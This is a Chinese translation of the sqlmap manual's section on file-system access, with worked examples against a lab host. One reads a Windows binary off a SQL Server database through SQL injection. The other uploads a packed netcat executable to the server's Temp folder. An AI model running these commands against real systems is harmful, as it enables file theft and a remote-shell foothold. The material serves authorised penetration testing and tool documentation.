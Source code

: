 ## 访问文件系统

### 读取数据库服务器文件系统文件

选项：`--file-read`

当后端 DBMS（Database Management System，数据库管理系统）为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够直接读取底层文件系统中文件的内容。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 Microsoft SQL Server 2005 为目标，获取二进制文件的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### 向数据库服务器的文件系统上传文件

选项：`--file-write` 和 `--file-dest`

当后端 DBMS 为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有利用数据库特定功能和相关架构弱点的权限时，sqlmap 能够向数据库服务器文件系统上传一个本地文件。文件可以是文本文件或者二进制文件，sqlmap 都能够正确地处理相关文件。

这些技术的相关详情可见白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

下面是以 MySQL 为目标，向服务器提交一个经过 UPX 压缩的二进制文件的例子：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```